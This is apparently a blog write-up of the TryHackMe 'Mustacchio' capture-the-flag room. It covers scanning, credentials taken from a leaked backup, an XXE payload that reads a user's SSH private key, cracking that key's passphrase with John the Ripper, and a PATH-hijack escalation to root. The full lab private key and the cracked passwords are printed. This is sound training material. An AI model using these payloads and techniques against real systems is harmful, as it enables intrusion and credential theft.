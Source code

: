 ```yaml
---
layout: post
title: Mustacchio CTF
published: false
---
```


Well hello people. This is a writeup of the Mustacchio CTF from Tryhackme. 
It was rated as a easy level box and it’s a really interesting challenge so 
without further due let’s start the hack.

Room : [Mustacchio](https://tryhackme.com/room/mustacchio)

## Nmap Scanning

>  nmap -p- IPADDR

We get the following ports open :
```
- 22 ssh
- 80 http
- 8765 ultraseek-http
```

So after scanning we know there is a website running on this machine so lets hope on to it and have a look.

## Go Gobuster!!!

gobuster dir -u http://IPADDR -w /usr/share/wordlists/dirbuster/common.txt


After the scan you can see we got some directories. Most of them are dead ends but the `custom` has a .bak file in it. After downloading it we can see that it is some sort of a SQL backup file with some credentials.
After using crackstation to crack the password we get the following credentails :

```
admin
bulldog19
```

Now, lets check the 8765 port 

We get this login page. Hmm... let try those credential we just found. 


And we are in! 


When we look at the source code we see these two intersting comments. The 2nd one tells us a username for the SSH login which is Barry. The 1st is looks like a path. After checking the path we get a dontforget.bak file with some XML code written in it.

## XXE

We can try to read the id_rsa file on barry from the machine by attempting binding a payload to the sample XML code we got from the dontforget.bak file

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>

  <com>&xxe;</com>
</comment>
```

And we get the id_rsa but we have to format it properly by adding spaces and line breaks otherwise it will give an error while logging it.

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
```


## John The Ripper

Now lets crack the id_rsa as it is requires a passpharse to login

/opt/johnTheRipper/ssh2John.py id_rsa > hash

john hash --wordlist=/usr/share/wordlists/rockyou.txt

And we get the passphrase : ``` urieljames```

## Loggin into SSH

After loggin in we get the user flag right away

## Privilege escalation

Lets look for SUIDs to exploit as it is given in the hint

> find / -perm -u=s -type f 2>/dev/null

We get a binary called live_log in joe's directory and luckily we can move into his directory as well.
After using strings on the binary file we see this interesting line

> tail -f /var/log/nginx/access.log

Intresting. Lets use this to gain root. Lets create a file named tail and make it executable and a script to get root. We also have to change the path to our file 

> echo "/bin/bash" > tail

> chmod +x tail

> export PATH=/tmp:$PATH

Now lets run the `live_log` binary.

And that's it. We got root. This was a fun box. Though i have to admit i had to take some hints on the way but still it was a great learning experience.



